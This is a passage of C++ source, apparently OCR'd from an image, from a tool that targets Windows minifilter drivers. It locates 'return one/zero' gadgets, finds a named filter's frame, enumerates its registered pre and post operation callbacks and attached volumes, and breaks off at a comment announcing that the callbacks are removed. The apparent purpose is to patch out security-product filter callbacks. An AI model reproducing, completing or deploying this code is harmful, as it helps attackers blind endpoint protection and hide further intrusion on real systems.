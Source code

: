 ```C++
	printf("Found return one gadget at %llx\n", (DWORD64)gl_hf.FuncReturns1);
	printf("Found return zero gadget at %llx\n", (DWORD64)gl_hf.FuncReturns0);

	// get the count of frames just for fun
	DWORD dwX = oFlt.GetFrameCount();
	printf("Flt globals is at %p\n", oFlt.lpFltGlobals);
	printf("%d frames available\n", dwX);
	printf("Frame list is at %p\n", oFlt.lpFltFrameList);

	// get a pointer to our target filter we're patching
	PVOID lpFilter = oFlt.GetFilterByName(wstrFilterName);
	if (!lpFilter) {
		puts("Target filter not found, exiting...");
		exit(-1);
	}

	// get the frame for our target filter
	PVOID lpFrame = oFlt.GetFrameForFilter(lpFilter);
	if (!lpFrame) {
		puts("Failed to get frame for filter!");
		exit(-1);
	}

	printf("Frame for filter is at %p\n", lpFrame);

	// get the list of FLT_OPERATION_REGISTRATION callbacks
	auto vecOperations = oFlt.GetOperationsForFilter(lpFilter);
	for (auto op : vecOperations) {
		const char* strOperation = g_IrpMjMap.count((BYTE)op.MajorFunction) ?  g_IrpMjMap[(BYTE)op.MajorFunction] : "IRP_MJ_UNDEFINED";
		printf("MajorFn: %s\nPre: %p\nPost %p\n", strOperation, op.PreOperation, op.PostOperation);
	}

	// get the volumes attached to the frame of our target filter
	auto frameVolumes = oFlt.EnumFrameVolumes(lpFrame);
	const wchar_t* strHardDiskPrefix = LR"(\Device\HarddiskVolume)";

	// remove the callbacks
